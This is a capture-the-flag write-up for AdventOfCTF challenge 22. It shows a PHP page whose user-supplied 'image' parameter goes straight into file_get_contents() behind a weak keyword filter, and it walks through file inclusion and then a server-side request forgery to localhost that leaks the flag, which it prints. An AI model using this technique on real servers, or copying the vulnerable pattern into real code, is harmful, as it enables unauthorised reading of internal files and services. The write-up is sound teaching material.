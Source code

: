 +++
author = "Maik de Kruif"
title = "Challenge 22"
subtitle = "Challenge 22 - AdventOfCTF"
date = 2021-03-04T01:24:34+01:00
description = "A writeup for challenge 22 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/6c0810c1568645bcf58da67a1db6e3e7.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "php",
    "ssrf",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 2200

## Description

We have a new service! You can view santa's favorite pictues. Currently there is only one, but it is a very good one! You can get the flag through flag.php.

Visit <https://22.adventofctf.com> to start the challenge.

## Recon

Upon opening the challenge website, we're greeted with a link with the text "Is this santa?". If we click on it, it redirects to `/index.php?image=cat.jpg`.

This page shows us a nice picture of a cat.

## Finding the vulnerability

When looking at this, you might think of Local File Inclusion (LFI). This makes sense as it is one of the most common vulnerability in opening files.

We can try to use it to open `flag.php`. To try this, let's replace `cat.jpg` with `flag.php` in the URL.

When opening the page, we will see a broken image, this is expected as the file it not an image. If we open the source we find the following:

```html
<img
  src="data:image/jpeg;base64,PD9waHAKCmluY2x1ZGUoInNlY3JldC5waHAiKTsKCmlmIChzdHJwb3MoY2hlY2tfc2VjcmV0KCksICJhbGxvdyIpICE9PSBmYWxzZSkgewogICBlY2hvIGdldF9mbGFnKCk7IAp9Cgo/Pgo="
  width="100%"
/>
```

Here we see some `base64` encoded data, let's decode it using the following command:

```bash
echo -n "PD9waHAKCmluY2x1ZGUoInNlY3JldC5waHAiKTsKCmlmIChzdHJwb3MoY2hlY2tfc2VjcmV0KCksICJhbGxvdyIpICE9PSBmYWxzZSkgewogICBlY2hvIGdldF9mbGFnKCk7IAp9Cgo/Pgo=" | base64 -d
```

```php
<?php

include("secret.php");

if (strpos(check_secret(), "allow") !== false) {
   echo get_flag();
}

?>
```

If we look at this code, we see that if `check_secret()` contains `"allow"`, it will execute the `get_flag()` function (which will probably give us the flag).

The functions are not defined in this file so they probably come from `secret.php`. Let's try to read that file.

Alas, we get the cat picture again. That's weird. There might be a filter on the input. Let's verify that by reading the `index.php` file.

Using the same decoding method, we get the following result:

{{< code language="php" title="index.php" >}}

```html
<!DOCTYPE html>
<html class="no-js" lang="">
  <head>
    <meta charset="utf-8" />
    <meta http-equiv="x-ua-compatible" content="ie=edge" />
    <title>Advent of CTF 22</title>
    <meta name="description" content="" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />

    <link rel="stylesheet" href="style.css" type="text/css" media="screen" />
    <link
      rel="stylesheet"
      href="https://use.fontawesome.com/releases/v5.6.3/css/all.css"
      integrity="sha384-UHRtZLI+pbxtHCWp1t77Bi1L4ZtiqrqD80Kn4Z8NTSRyMA2Fd33n5dQ8lWUE00s/"
      crossorigin="anonymous"
    />
    <style>
      .row-margin-05 {
        margin-top: 0.5em;
      }
      .row-margin-10 {
        margin-top: 1em;
      }
      .row-margin-20 {
        margin-top: 2em;
      }
      .row-margin-30 {
        margin-top: 3em;
      }
    </style>
  </head>
  <body>
    <div class="jumbotron bg-transparent mb-0 radius-0">
      <div class="container fluid">
        <div class="row">
          <div class="col-xl-6 mx-auto">
            <h1 class="display-2">
              Advent of CTF <span class="vim-caret">22</span>
            </h1>
            <div class="lead mb-3 text-mono text-warning">
              Your daily dose of CTF for December
            </div>

            <div class="row">
              <div class="col-xl-12 mx-auto">
                <div class="card">
                  <div class="card-header text-center">
                    <h2>The big reveal</h2>
                  </div>
                  <div class="card-body">
                    <?php
                    if (!isset($_GET["image"])) {
                    ?>
                    <a href="/index.php?image=cat.jpg">Is this santa?</a>
                    <?php
                    } else {
                        $path = $_GET["image"];
                        if (strpos($path,"secret") !== false) {
                            $path="cat.jpg";
                        }
                        $image = file_get_contents($path);
                        echo '<img src="data:image/jpeg;base64,'.base64_encode($image).'" width="100%"/>';
                    } ?>
                  </div>
                  <div class="card-footer text-center">Almost there</div>
                </div>
              </div>
            </div>
            <div class="row row-margin-30">
              <div class="card mb-3 bg-dark text-white">
                <div class="card-body">
                  <div class="row">
                    <div class="col-md-2">
                      <img src="/logo.png" />
                    </div>
                    <div class="col-md-9 offset-md-1 align-middle">
                      <p class="text-center">
                        <span class="align-middle">
                          The Advent of CTF is brought to you by
                          <a href="http://www.novi.nl">NOVI Hogeschool</a>. It
                          is built by
                          <a
                            href="https://twitter.com/credmp/"
                            class="icoTwitter"
                            title="Twitter"
                            ><i class="fab fa-twitter"></i> @credmp</a
                          >. If you are looking for a Dutch Cyber Security
                          Bachelor degree or bootcamp,
                          <a href="https://www.novi.nl">check us out</a>.
                        </span>
                      </p>
                    </div>
                  </div>
                </div>
              </div>
            </div>
          </div>
        </div>
      </div>
    </div>
  </body>
</html>
```

{{< /code >}}

Just the PHP part:

```html
<?php
if (!isset($_GET["image"])) {
?>
<a href="/index.php?image=cat.jpg">Is this santa?</a>
<?php
} else {
    $path = $_GET["image"];
    if (strpos($path,"secret") !== false) {
        $path="cat.jpg";
    }
    $image = file_get_contents($path);
    echo '<img src="data:image/jpeg;base64,'.base64_encode($image).'" width="100%"/>';
} ?>
```

Here we see that we cannot get any file containing "secret". This means we have to find another way to get the flag.

We see that this code is using the `file_get_contents()` function to open file. Let's have a look at the [PHP documentation for it](https://www.php.net/manual/en/function.file-get-contents.php).

If we read a bit we find the following example usage:

```php
<?php
$homepage = file_get_contents('http://www.example.com/');
echo $homepage;
?>
```

This means it can also open URLs and, since we control the input to the function, we have a Server-Side Request Forgery (SSRF) vulnerability. Let's try to use that to open the flag file.

To test this, we can use the following input; `image=http://localhost/flag.php`.

_Note: We can not use the `secret.php` file as any input containing "secret" is blocked._

We, again, got some base64 encoded data back, so let's decode it:

```bash
echo -n "Tk9WSXthc2tpbmdfZm9yX2FfZnJpZW5kfQ==" | base64 -d
```

## Solution

We got the flag! It is `NOVI{asking_for_a_friend}`.
